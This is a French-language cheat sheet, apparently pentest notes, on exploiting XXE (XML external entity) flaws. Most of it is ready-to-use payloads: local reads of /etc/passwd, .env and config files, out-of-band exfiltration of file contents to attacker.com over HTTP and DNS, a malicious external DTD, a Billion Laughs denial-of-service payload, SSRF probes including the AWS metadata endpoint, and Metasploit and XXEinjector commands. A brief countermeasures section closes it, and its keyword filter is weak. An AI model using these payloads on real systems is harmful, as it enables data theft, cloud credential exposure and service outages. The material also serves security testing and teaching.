

## XXE File Disclosure et exploitation

Cette attaque exploite les vulnérabilités de parsing XML permettant l'inclusion d'entités externes (**XXE**). Elle est étroitement liée aux concepts de **Blind XXE**, **SSRF**, **Web Application Enumeration** et **File Inclusion**.



> [!warning] Prérequis
> Nécessite une visibilité réseau entre la cible et l'attaquant pour l'exfiltration OOB (Out-of-Band).

> [!danger] Critique
> L'exploitation **XXE** peut mener à une exécution de code à distance (**RCE**) via des wrappers spécifiques (ex: `php://expect`).

> [!note] Attention
> L'exfiltration de fichiers contenant des caractères spéciaux (ex: `<`, `&`, `>`) peut faire échouer l'injection XML sans l'utilisation de **CDATA**.

## Détection de la Vulnérabilité XXE

### Test de lecture de fichiers locaux
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

### Test XXE Blind (Exfiltration HTTP)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/log?data=test"> ]>
<root>&xxe;</root>
```

### Test avec exfiltration DNS
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://xxe.attacker.com"> ]>
<root>&xxe;</root>
```

## Lecture de Fichiers Sensibles

| Cible | Payload |
| :--- | :--- |
| Linux `/etc/passwd` | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` |
| Windows `win.ini` | `<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">` |
| Config Web | `<!ENTITY xxe SYSTEM "file:///var/www/html/config.php">` |
| Logs Apache | `<!ENTITY xxe SYSTEM "file:///var/log/apache2/access.log">` |
| Logs SSH | `<!ENTITY xxe SYSTEM "file:///var/log/auth.log">` |
| Fichier `.env` | `<!ENTITY xxe SYSTEM "file:///var/www/html/.env">` |
| Listing répertoire | `<!ENTITY xxe SYSTEM "file:///home/">` |
| Session PHP | `<!ENTITY xxe SYSTEM "file:///var/lib/php/sessions/sess_ID">` |

## Techniques de contournement (WAF/Filter Bypass)

Lorsque des filtres bloquent les mots-clés `SYSTEM` ou `PUBLIC`, il est possible d'utiliser l'encodage ou des variations de parsing.

### Encodage UTF-16
Certains parsers acceptent l'encodage UTF-16 pour contourner les filtres basés sur des signatures ASCII.

### Utilisation de DTD externes
Si le corps de la requête est filtré, charger une DTD distante peut contourner les restrictions :
```xml
<?xml version="1.0" ?>
<!DOCTYPE root SYSTEM "http://attacker.com/evil.dtd">
<root>&xxe;</root>
```
Contenu de `evil.dtd` :
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Gestion des caractères spéciaux (CDATA)

Pour lire des fichiers contenant des caractères XML réservés (`<`, `>`, `&`), il faut encapsuler le contenu dans une section **CDATA** via une DTD externe pour éviter les erreurs de parsing.

```xml
<!ENTITY % file SYSTEM "file:///var/www/html/config.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
%all;
```

## Différences de parsing selon le langage (PHP, Java, .NET)

*   **PHP (libxml)** : Supporte les wrappers `php://filter/convert.base64-encode/resource=...` ce qui est crucial pour lire des fichiers binaires ou des scripts sans déclencher d'erreurs de parsing.
*   **Java (Xerces)** : Très sensible aux entités externes. Permet souvent l'inclusion de fichiers via `file:///` mais nécessite une configuration spécifique pour l'exfiltration OOB.
*   **.NET** : Le `XmlDocument` est vulnérable par défaut si `XmlResolver` n'est pas explicitement désactivé.

## Risques de DoS (Billion Laughs Attack)

L'expansion récursive d'entités peut saturer la mémoire du serveur et provoquer un déni de service.

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<root>&lol3;</root>
```

## Exfiltration de Fichiers via HTTP

### Exfiltration standard
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY send SYSTEM "http://attacker.com/log?data=&xxe;">
]>
<root>&send;</root>
```

### Exfiltration via DNS
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY send SYSTEM "http://xxe.attacker.com/?data=&xxe;">
]>
<root>&send;</root>
```

## Exploitation via SSRF

### Scan de ports internes
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:22"> ]>
<root>&xxe;</root>
```

### Interaction avec services internes
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin">
]>
<root>&xxe;</root>
```

### Métadonnées Cloud (AWS)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<root>&xxe;</root>
```

## Automatisation et Détection

### XXEinjector
```bash
python3 xxe-injector.py -u "http://target.com/vuln.xml"
```

### Metasploit
```bash
use auxiliary/scanner/http/xxe
set RHOSTS target.com
set RPORT 80
run
```

### Nuclei
```bash
nuclei -t vulnerabilities/xxe/
```

### Surveillance logs
```bash
tail -f /var/log/apache2/access.log
```

## Sécurité & Contre-Mesures

### Désactivation des entités (PHP)
```php
libxml_disable_entity_loader(true);
```

### Utilisation de parser sécurisé (Python)
```python
import defusedxml.ElementTree as ET
```

### Configuration XML sécurisée
```xml
<configuration>
  <system.xml>
    <security>
      <allow-external-entities>false</allow-external-entities>
    </security>
  </system.xml>
</configuration>
```

### Filtrage d'entrées
```python
def parse_xml(user_input):
    if "&" in user_input or "SYSTEM" in user_input:
        return "Input not allowed"
```